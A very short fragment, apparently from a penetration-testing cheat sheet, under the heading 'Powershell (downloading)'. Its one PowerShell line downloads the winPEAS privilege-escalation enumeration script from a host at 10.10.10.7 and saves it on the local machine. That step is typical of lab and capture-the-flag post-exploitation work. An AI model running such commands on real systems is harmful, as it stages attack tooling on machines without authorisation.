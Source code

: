 # Powershell (downloading)

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.7:8888/winPEAS.bat', 'win.bat')
```
